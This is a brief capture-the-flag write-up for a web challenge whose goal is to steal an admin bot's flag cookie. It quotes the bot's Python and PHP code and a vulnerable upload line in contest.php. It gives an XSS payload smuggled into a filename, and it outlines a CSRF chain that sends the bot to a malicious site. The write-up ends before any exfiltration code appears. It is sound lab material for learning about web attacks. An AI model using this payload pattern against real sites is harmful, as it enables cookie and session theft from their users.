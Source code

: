 Objective: Obtain the flag in a cookie with the domain `shop`.

```python
    url = sys.argv[1]

    if not re.match(r"^https?:\/\/", url):
        return

    browser = await launch(options={
        "headless": True,
        "executablePath": "/usr/bin/chromium",
        "ignoreHTTPSErrors": True,
        "args": ["--no-sandbox"]
    })
    page = await browser.newPage()

    await page.setCookie({"name": "flag", "value": Flag, "domain":"shop"})
    await page.goto(url, {"timeout": 0})
    await asyncio.sleep(3)
    await browser.close()
    print(url)
```

The Docker hostname will be `shop`, so `http://shop` refers to localhost, and `secret.php` is the bot.

```php

<?php
if (isset($_POST["url"])) {
  exec("python3 /opt/admin.py " . escapeshellarg($_POST["url"]) . " > /dev/null &");
  echo "Visiting url...";
  die();
}
?>
```

There was XSS in contest.php

```php
echo "<a href='$target_dir'>uploaded chall-sc!</a>";
```

If the filename is `'><script>alert(1)</script>x.png` the output should be

```html
<a href=""
  ><script>
    alert(1)
  </script>
  .png>uploaded chall-sc!</a
>
```

Then the alert will be trigerred since there was no csrf protection and we can tell the bot to visit any url, we can tell the bot to visit our malicious site with the exploit
